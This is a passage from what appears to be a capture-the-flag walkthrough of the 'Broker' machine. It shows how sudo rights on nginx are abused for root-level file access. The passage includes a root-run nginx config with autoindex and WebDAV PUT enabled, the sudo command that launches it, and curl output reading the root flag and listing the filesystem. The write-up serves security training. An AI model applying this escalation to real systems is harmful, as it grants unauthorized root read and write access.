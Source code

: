 
This is enough to get the flag and solve the box:

```

activemq@broker:~$ curl localhost:1337/root/root.txt
8a207d68************************

```

#### File Write

nginx can also handle PUT requests which write files. I’ll update the config to include enabling PUTs:

```

user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1338;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}

```

I’ll also need to change the port. I don’t have a way to kill the running server on 1337, and if I try to run with the same port, nginx will fail to listen and abort.

Now I run this:

```

activemq@broker:/dev/shm$ sudo /usr/sbin/nginx -c /dev/shm/0xdf.conf 

```

And a new server is listening on 1338, returning a file listing for `/`:

```

activemq@broker:/dev/shm$ curl localhost:1338
<html>
<head><title>Index of /</title></head>
<body>
<h1>Index of /</h1><hr><pre><a href="../">../</a>
<a href="bin/">bin/</a>                                               06-Nov-2023 01:10                   -
<a href="boot/">boot/</a>                                              06-Nov-2023 01:38                   -
<a href="dev/">dev/</a>                                               08-Nov-2023 17:53                   -
<a href="etc/">etc/</a>                                               07-Nov-2023 06:53                   -
<a href="home/">home/</a>                                              06-Nov-2023 01:18                   -
<a href="lib/">lib/</a>                                               06-Nov-2023 00:57                   -
<a href="lib32/">lib32/</a>                                             17-Feb-2023 17:19                   -
<a href="lib64/">lib64/</a>                                             05-Nov-2023 02:36                   -
```